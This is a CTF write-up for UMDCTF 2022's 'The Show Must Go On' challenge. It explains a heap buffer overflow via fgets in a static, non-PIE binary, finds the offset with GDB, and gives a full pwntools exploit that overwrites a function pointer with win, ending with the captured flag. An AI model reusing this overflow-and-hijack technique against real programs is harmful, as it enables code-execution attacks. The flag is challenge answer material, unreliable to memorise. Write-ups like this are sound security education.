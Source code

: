 # UMDCTF 2022

## The Show Must Go On

> We are in the business of entertainment, the show must go on! Hope we can find someone to replace our old act super fast...
> 
> **Author**: WittsEnd2
>
> `0.cloud.chals.io 30138`
>
> [`theshow`](theshow)

Tags: _pwn_ _x86-64_ _bof_ _heap_

## Summary

BOF in embryo heap (vs stack) to change a function pointer to `win`.

> The binary is static linked.  So a bit more looking around.  You'll lose a lot of time if you do not discover the `win` function.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE is all we need to call `win`.


### Ghidra Decompile

```c
undefined8 setup(void)
{
  undefined8 *puVar1;
  long in_FS_OFFSET;
  int local_44;
  char *local_40;
  undefined local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_40 = (char *)0x0;
  local_44 = 0;
  message1 = (undefined8 *)malloc_set(0x50);
  message2 = (undefined8 *)malloc_set(0x60);
  message3 = (undefined8 *)malloc_set(0x80);
  puVar1 = message1;
  *message1 = 0x20656d6f636c6557;
  puVar1[1] = 0x6320656874206f74;
  puVar1[2] = 0x6c63207964656d6f;
  *(undefined4 *)(puVar1 + 3) = 0xa216275;
  puVar1 = message2;
  *message2 = 0x20796c6e6f206557;
  puVar1[1] = 0x6568742065766168;
  puVar1[2] = 0x6f63207473656220;
  puVar1[3] = 0x20736e616964656d;
  *(undefined4 *)(puVar1 + 4) = 0x65726568;
  *(undefined *)((long)puVar1 + 0x24) = 0x21;
  puVar1 = message3;
  *message3 = 0x6820657361656c50;
  puVar1[1] = 0x7320737520706c65;
  puVar1[2] = 0x6f66207075207465;
  puVar1[3] = 0x612072756f792072;
  *(undefined4 *)(puVar1 + 4) = 0xa7463;
  printf("%s",message1);
  printf("%s",message2);
  printf("%s",message3);
  puts("What is the name of your act?");
  __isoc99_scanf(&DAT_004bb1e6,local_38);
  mainAct = malloc_set(0x68);
  thunk_FUN_0040054e(mainAct,local_38,0x20);
  local_40 = crypt("Main_Act_Is_The_Best",salt);
  thunk_FUN_0040054e(mainAct + 0x20,local_40,0x40);
  puts("Your act code is: Main_Act_Is_The_Best");
  *(code **)(mainAct + 0x60) = tellAJoke;
  currentAct = mainAct;
  free(message1);
  free(message3);
  puts("How long do you want the show description to be?");
  __isoc99_scanf(&DAT_004bb2a2,&local_44);
  showDescription = (char *)malloc_set((long)(local_44 + 8));
  puts("Describe the show for us:");
  getchar();
  fgets(showDescription,500,(FILE *)stdin);
  actList._0_8_ = mainAct;
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return 0;
}
```

The vuln is `fgets`:

```c
  puts("How long do you want the show description to be?");
  __isoc99_scanf(&DAT_004bb2a2,&local_44);
  showDescription = (char *)malloc_set((long)(local_44 + 8));
  puts("Describe the show for us:");
  getchar();
  fgets(showDescription,500,(FILE *)stdin);
```

The length of `showDescription` is dynamic, but `fgets` will read up to `500` bytes.  This creates an opportunity to corrupt the heap.

There are four `malloc_set` calls before the `malloc_set` for `showDescription`.  The fourth is for the `mainAct` struct; `0x60` offset into that struct is a pointer to a function:

```c
*(code **)(mainAct + 0x60) = tellAJoke;
```

We just need to change that to `win`, that's it.

Just before we're prompted for show length, the following `free`s are called:

```c
  free(message1);
  free(message3);
```

If we set our show length to the same as `message3` (`0x80`, see the decompile), then we should be sitting in the heap right above the `mainAct` struct (heap memory optimization for reuse).  If so, then overwriting the function pointer is trivial.

The request size needs to be `0x80` - `8` (`120`), since the code will add `8` to our value:

```c
showDescription = (char *)malloc_set((long)(local_44 + 8));
```

To overwrite the function pointer we'll need to send `0x80` bytes to exhaust our allocation + `16` bytes for the heap structure (Google for some heap diagrams) + `0x60` (offset into `mainAct` for function pointer).  So that's `0x80 + 16 + 0x60` (`240`).

Alternatively you can use GDB:

```
gef➤  run
Starting program: /pwd/datajerk/umdctf2022/theshow/theshow
Welcome to the comedy club!
We only have the best comedians here!Please help us set up for your act
What is the name of your act?
FOOBAR
Your act code is: Main_Act_Is_The_Best
How long do you want the show description to be?
^C
Program received signal SIGINT, Interrupt.
```

Start it, put in a string (e.g. `FOOBAR`), ctrl-C, then:

```
gef➤  grep FOOBAR
[+] Searching 'FOOBAR' in memory
[+] In '[heap]'(0x6e9000-0x73b000), permission=rw-
  0x719c90 - 0x719c96  →   "FOOBAR"
```

Note the `0x719c90` location and type `c`:

The last prompt was `How long do you want the show description to be?`, and we already determined above it needs to be `120`, so type that in:

```
gef➤  c
Continuing.
120
Describe the show for us:
BLAHBLAH
What would you like to do?
+-------------+
|   Actions   |
|-------------|
| Perform Act |
| Switch Act  |
| End Show    |
+-------------|
Action: ^C
```

Enter something else (e.g. `BLAHBLAH`), and then ctrl-C and search for it:

```
gef➤  grep BLAHBLAH
[+] Searching 'BLAHBLAH' in memory
[+] In '[heap]'(0x6e9000-0x73b000), permission=rw-
  0x719c00 - 0x719c0a  →   "BLAHBLAH\n"
```

Verify that `0x719c00` (location of `BLAHBLAH`) is less than `0x719c90` (location of `FOOBAR`), if so, you're a winner.  Just subtract one from the other and add `0x60` for the function pointer offset:

```
gef➤  p/d 0x719c90 - 0x719c00 + 0x60
$1 = 240
```  
 
  
## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./theshow',checksec=False)

if args.REMOTE:
    p = remote('0.cloud.chals.io', 30138)
else:
    p = process(binary.path)

p.sendlineafter(b'act?\n', b'foo')
p.sendlineafter(b'be?\n', b'120')

payload  = b''
payload += 240 * b'A'
payload += p64(binary.sym.win)

p.sendlineafter(b'us:\n', payload)
p.sendlineafter(b'Action: ', b'1')

flag = p.recvline().strip().decode()

p.close()
print(flag)
```

Output:

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to 0.cloud.chals.io on port 30138: Done
[*] Closed connection to 0.cloud.chals.io port 30138
UMDCTF{b1ns_cAN_B3_5up3r_f4st}
```


